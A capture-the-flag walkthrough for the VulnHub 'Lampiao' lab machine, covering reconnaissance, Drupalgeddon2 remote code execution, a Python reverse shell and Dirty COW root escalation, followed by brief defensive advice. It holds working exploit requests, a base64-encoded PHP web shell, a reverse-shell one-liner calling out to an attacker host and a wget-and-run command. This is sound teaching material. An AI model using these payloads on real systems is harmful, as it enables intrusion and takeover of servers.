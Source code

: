 ## Reconnaissance

Discover the IP using arp-scan <br>
```
$ arp-scan -l -I en1 -v
Interface: en1, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.0.105	08:00:27:e5:04:1a	CADMUS COMPUTER SYSTEMS
```

Check the services/ports exposed using nmap

```
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http?   syn-ack
1898/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
```

From the generator header, we can see that the application is running on Drupal and version probably 7 <br>
Also, there is an interesting file ```CHANGELOG.txt``` which exposes the accurate version used under 7.x

```
Drupal 7.54, 2017-02-01
-----------------------
- Modules are now able to define theme engines (API addition:
  https://www.drupal.org/node/2826480).
```

## Exploitation

Now that we have figured the exact version, let's check if there are any exploits available. 

From [CVE-2018-7600-Drupal-RCE](https://github.com/g0rx/CVE-2018-7600-Drupal-RCE) and [Druppalgeddon2](https://github.com/dreadlocked/Drupalgeddon2), we can see that the Drupal version 7.54 is vulnerable to RCE.

```
[*] Testing: Code Execution   (Method: name)
[v] HTTP - URL : http://192.168.0.105:1898/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo XMVRLQYC
[+] Result : XMVRLQYC
[v] HTTP - URL : http://192.168.0.105:1898/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee lampioaa.php
```

Luckily the exploit which we ran, automatically creates a shell and prompts us with a jailed environment with a lot of restrictions.

We can get a reverse shell using Python with ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.104",13337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``` 

Reverse shells generally don't have tty enabled and we need to upgrade our shell so that we can run commands like `sudo` `su` `ssh`

To enable tty on a jailed shell, we can run, ```python -c 'import pty; pty.spawn("/bin/sh")'```

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/tty-no-tty.png">
</p>

## Privilege Escalation

Now that we have shell access, we need to escalate this to ```root``` to read the flag. 
Let us run ```linux-exploit-suggester``` to check if the kernel has any publicly available exploits. 

```
www-data@lampiao:/tmp$ wget --quiet https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh && chmod +x les.sh && ./les.sh
Available information:
Kernel version: 4.4.0
Architecture: i686
<snipped>
Possible Exploits:
[+] [CVE-2016-5195] dirtycow 2
   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847.cpp
 <snipped>
 ```
 
Let us pull the exploit and try it. It is important that we compile with the specified flags else we might get warnings, errors during compilation time. 

Running the dcow exploit, rewrites the ```root``` password to ```dirtyCowFun``` in the ```/etc/passwd``` file
We can ssh as the root user with the modified password. 

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/root-lamp.png">
</p>

## Defense 

1) Firewall/IDS/IPS rule to detect signature of druppalgeddon and block it. 
2) Disable access to sensitive files like CHANGELOG.txt.
3) Limit the ACL for uploading, executing files in the OS level or Server level. 

## References 

1) https://netsec.ws/?p=337
2) https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell
